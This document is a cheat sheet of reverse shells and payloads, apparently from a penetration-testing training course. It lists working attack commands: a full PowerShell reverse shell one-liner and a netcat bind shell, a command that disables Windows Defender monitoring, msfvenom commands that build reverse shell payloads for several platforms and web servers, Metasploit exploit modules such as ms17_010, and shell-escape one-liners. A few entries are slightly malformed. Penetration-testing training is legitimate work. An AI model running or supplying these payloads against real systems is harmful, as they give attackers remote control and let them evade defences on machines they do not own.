 # Shells and Payloads  
  
List of types of reverse shells and payloads to use for different scenarios and targets:  
  
| Tool              | Description |  
| ----------------- | ----------- |  
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol. |  
| `env` | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use. |  
| `sudo nc -lvnp <port #>` | Starts a `netcat` listener on a specified port |  
| `nc -nv <ip address of computer with listener started><port being listened on>` | Connects to a netcat listener at the specified IP address and port |  
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| /bin/bash -i 2>&1 \| nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell (`/bin/bash`) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on |  
| `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535\|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 \| Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` | `Powershell` one-liner used to connect back to a listener that has been started on an attack box |  
| `Set-MpPreference -DisableRealtimeMonitoring $true` | PowerShell command using to disable real time monitoring in `Windows Defender`. |  



| `use exploit/windows/smb/psexec` | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing `smb` & `psexec` |  
| `shell` | Command used in a meterpreter shell session to drop into a `system shell` |  
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf` | `MSFvenom` command used to generate a linux-based reverse shell `stageless payload`. |  
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe` | MSFvenom command used to generate a Windows-based reverse shell stageless payload |  



| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho` | MSFvenom command used to generate a MacOS-based reverse shell payload |  
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp` | MSFvenom command used to generate a ASP web reverse shell payload |  
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp` | MSFvenom command used to generate a JSP web reverse shell payload |  
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war` | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload |  
| `use auxiliary/scanner/smb/smb_ms17_010` | Metasploit exploit module used to check if a host is vulnerable to `ms17_010` |  
| `use exploit/windows/smb/ms17_010_psexec` | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17_010 |  
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce` | Metasploit exploit module that can be used to obtain a reverse shell on a vulnerable Linux system hosting `rConfig 3.9.6` |  



| `python -c 'import pty; pty.spawn("/bin/sh")'` | Python command used to spawn an `interactive shell` on a linux-based system |  
| `/bin/sh -i` | Spawns an interactive shell on a linux-based system |  
| `perl —e 'exec "/bin/sh";'` | Uses `perl` to spawn an interactive shell on a linux-based system |  
| `ruby: exec "/bin/sh"` | Uses `ruby` to spawn an interactive shell on a linux-based system |  
| `Lua: os.execute('/bin/sh')` | Uses `Lua` to spawn an interactive shell on a linux-based system |  
| `awk 'BEGIN {system("/bin/sh")}'` | Uses `awk` command to spawn an interactive shell on a linux-based system |  
| `find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;` | Uses `find` command to spawn an interactive shell on a linux-based system |  
| `find . -exec /bin/sh \; -quit` | An alternative way to use the `find` command to spawn an interactive shell on a linux-based system |  
| `vim -c ':!/bin/sh'` | Uses the text-editor `VIM` to spawn an interactive shell. Can be used to escape "jail-shells" |  
| `ls -la <path/to/fileorbinary>` | Used to `list` files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute |  
| `sudo -l` | Displays the commands that the currently logged on user can run as `sudo` |  
| `/usr/share/webshells/laudanum` | Location of `laudanum webshells` on ParrotOS and Pwnbox |  
| `/usr/share/nishang/Antak-WebShell` | Location of `Antak-Webshell` on Parrot OS and Pwnbox |  
